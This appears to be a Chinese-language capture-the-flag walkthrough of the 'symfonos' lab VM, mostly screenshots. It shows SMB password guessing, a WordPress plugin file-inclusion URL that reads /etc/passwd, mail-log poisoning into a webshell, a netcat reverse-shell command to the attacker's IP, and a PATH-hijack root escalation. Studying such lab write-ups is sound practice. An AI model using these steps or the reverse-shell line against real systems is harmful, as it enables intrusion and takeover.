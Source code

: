 # symfonos

![image-20200629022842763](assets/symfonos.assets/image-20200629022842763.png)

![image-20200629023013915](assets/symfonos.assets/image-20200629023013915.png)

![image-20200629023529071](assets/symfonos.assets/image-20200629023529071.png)

25邮件服务验证用户

![image-20200629023757731](assets/symfonos.assets/image-20200629023757731.png)

![image-20200629024527515](assets/symfonos.assets/image-20200629024527515.png)

![image-20200629023931759](assets/symfonos.assets/image-20200629023931759.png)

![image-20200629024006390](assets/symfonos.assets/image-20200629024006390.png)

使用这三个密码分别尝试登录helios

```bash
smbclient --user=helios //192.168.43.3/helios
```

最后密码是第二个`qwerty`

![image-20200629030157047](assets/symfonos.assets/image-20200629030157047.png)

![image-20200629030303698](assets/symfonos.assets/image-20200629030303698.png)

页面刷新非常慢，源码中显示了域名，先加入hosts

![image-20200629030703335](assets/symfonos.assets/image-20200629030703335.png)

![image-20200629030817862](assets/symfonos.assets/image-20200629030817862.png)

一个wordpress，同时显示了admin用户

![image-20200629031016582](assets/symfonos.assets/image-20200629031016582.png)

wpscan

```bash
wpscan --url http://symfonos.local/h3l105/ -e ap,vt,cb,u --force
```



![image-20200629033105259](assets/symfonos.assets/image-20200629033105259.png)

查询漏洞存在LFI

![image-20200629034050072](assets/symfonos.assets/image-20200629034050072.png)

![image-20200629034118841](assets/symfonos.assets/image-20200629034118841.png)

验证

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![image-20200629033615207](assets/symfonos.assets/image-20200629033615207.png)



我们可以通过为我们已知的邮件用户名进行smtp邮件日志投毒。

首先验证是否能成功包含邮件日志

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios
```

![image-20200629034542641](assets/symfonos.assets/image-20200629034542641.png)

成功，下面我们通过给helios发送插入cmd shell的恶意php语句，来对邮件日志进行投毒

![image-20200629035108611](assets/symfonos.assets/image-20200629035108611.png)

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id
```

![image-20200629035610736](assets/symfonos.assets/image-20200629035610736.png)

成功，现在把webshell转为rshell,在kali端1337端口设立监听。webshell执行

```bash
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc -e /bin/bash 192.168.43.66 1337
```

![image-20200629040250652](assets/symfonos.assets/image-20200629040250652.png)

sudo -l 没有，查找suid

![image-20200629040401926](assets/symfonos.assets/image-20200629040401926.png)

opt中应该是后安装的，检查文件

![image-20200629040609972](assets/symfonos.assets/image-20200629040609972.png)

看上去调用了curl，我们来伪造curl程序，然后改变环境变量，执行，root

![image-20200629041111748](assets/symfonos.assets/image-20200629041111748.png)

